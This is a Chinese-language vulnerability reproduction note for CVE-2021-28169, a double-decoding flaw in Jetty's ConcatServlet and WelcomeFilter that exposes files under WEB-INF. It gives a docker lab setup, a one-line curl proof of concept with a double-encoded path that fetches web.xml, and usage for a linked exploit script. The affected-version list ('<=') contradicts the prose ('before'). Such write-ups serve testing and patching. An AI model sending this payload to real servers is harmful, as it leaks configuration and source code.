


# CVE-2021-28169 Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞

## 漏洞概述
Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的ConcatServlet、WelcomeFilter类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

## 漏洞影响
Jetty versions <= 9.4.40  
Jetty versions <= 10.0.2  
Jetty versions <= 11.0.2  

## 环境搭建
漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-28169/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:8080`，环境成功运行



## 漏洞复现
### POC
```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

### EXP
漏洞脚本
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-28169/Exp/CVE-2021-28169.py

使用方式
```
python3 exp.py http://ip:port
```



## 参考
> https://github.com/vulhub/vulhub/tree/master/jetty/CVE-2021-28169